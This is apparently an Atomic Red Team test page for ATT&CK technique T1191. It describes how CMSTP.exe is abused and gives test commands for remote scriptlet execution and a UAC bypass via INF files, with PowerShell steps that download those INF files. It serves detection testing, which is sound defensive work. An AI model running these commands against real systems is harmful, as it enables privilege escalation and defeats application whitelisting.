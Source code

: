 # T1191 - CMSTP
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1191)
<blockquote>The Microsoft Connection Manager Profile Installer (CMSTP.exe) is a command-line program used to install Connection Manager service profiles. (Citation: Microsoft Connection Manager Oct 2009) CMSTP.exe accepts an installation information file (INF) as a parameter and installs a service profile leveraged for remote access connections.

Adversaries may supply CMSTP.exe with INF files infected with malicious commands. (Citation: Twitter CMSTP Usage Jan 2018) Similar to [Regsvr32](https://attack.mitre.org/techniques/T1117) / ”Squiblydoo”, CMSTP.exe may be abused to load and execute DLLs (Citation: MSitPros CMSTP Aug 2017)  and/or COM scriptlets (SCT) from remote servers. (Citation: Twitter CMSTP Jan 2018) (Citation: GitHub Ultimate AppLocker Bypass List) (Citation: Endurant CMSTP July 2018) This execution may also bypass AppLocker and other whitelisting defenses since CMSTP.exe is a legitimate, signed Microsoft application.

CMSTP.exe can also be abused to [Bypass User Account Control](https://attack.mitre.org/techniques/T1088) and execute arbitrary commands from a malicious INF through an auto-elevated COM interface. (Citation: MSitPros CMSTP Aug 2017) (Citation: GitHub Ultimate AppLocker Bypass List) (Citation: Endurant CMSTP July 2018)</blockquote>

## Atomic Tests

- [Atomic Test #1 - CMSTP Executing Remote Scriptlet](#atomic-test-1---cmstp-executing-remote-scriptlet)

- [Atomic Test #2 - CMSTP Executing UAC Bypass](#atomic-test-2---cmstp-executing-uac-bypass)


<br/>

## Atomic Test #1 - CMSTP Executing Remote Scriptlet
Adversaries may supply CMSTP.exe with INF files infected with malicious commands

**Supported Platforms:** Windows


#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| inf_file_path | Path to the INF file | path | PathToAtomicsFolder\T1191\src\T1191.inf|


#### Attack Commands: Run with `command_prompt`! 


```cmd
cmstp.exe /s #{inf_file_path}
```



#### Dependencies:  Run with `powershell`!
##### Description: INF file must exist on disk at specified location (#{inf_file_path})
##### Check Prereq Commands:
```
if (Test-Path #{inf_file_path}) {exit 0} else {exit 1} 
```
##### Get Prereq Commands:
```
New-Item -Type Directory (split-path #{inf_file_path}) -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1191/src/T1191.inf" -OutFile "#{inf_file_path}"
```




<br/>
<br/>

## Atomic Test #2 - CMSTP Executing UAC Bypass
Adversaries may invoke cmd.exe (or other malicious commands) by embedding them in the RunPreSetupCommandsSection of an INF file

**Supported Platforms:** Windows


#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| inf_file_uac | Path to the INF file | path | PathToAtomicsFolder\T1191\src\T1191_uacbypass.inf|


#### Attack Commands: Run with `command_prompt`! 


```cmd
cmstp.exe /s #{inf_file_uac} /au
```



#### Dependencies:  Run with `powershell`!
##### Description: INF file must exist on disk at specified location (#{inf_file_uac})
##### Check Prereq Commands:
```
if (Test-Path #{inf_file_uac}) {exit 0} else {exit 1} 
```
##### Get Prereq Commands:
```
New-Item -Type Directory (split-path #{inf_file_uac}) -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1191/src/T1191_uacbypass.inf" -OutFile "#{inf_file_uac}"
```




<br/>
